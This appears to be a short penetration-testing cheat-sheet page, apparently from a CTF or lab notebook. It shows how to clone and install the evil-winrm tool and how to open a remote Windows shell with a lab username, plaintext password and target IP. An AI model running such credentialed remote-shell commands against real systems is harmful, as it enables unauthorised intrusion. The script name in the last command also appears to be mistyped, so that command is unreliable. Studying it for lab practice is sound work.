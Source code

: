 ```yaml
---
description: To get a windows shell
---
```


# evil-winrm

{% embed url="https://github.com/Hackplayers/evil-winrm" %}

```text
git clone https://github.com/Hackplayers/evil-winrm
```

```text
cd evil-winrm

for i in $(cat Gemfile | tail -4 | cut -d ' ' -f 2 | tr -d "'"); do gem install $i; done; echo -e "\n\n\nDONE"
```

With the right credentials, run the following to get a shell\(**putting password inside quotes because of special characters**\):

```text
ruby evil-rm.rb -u chase -p 'Q4)sJu\Y8qz*A3?d' -i 10.10.10.149
```

Full output:

![evil-winrm shell](.gitbook/assets/evilwinrm%20%281%29.png)



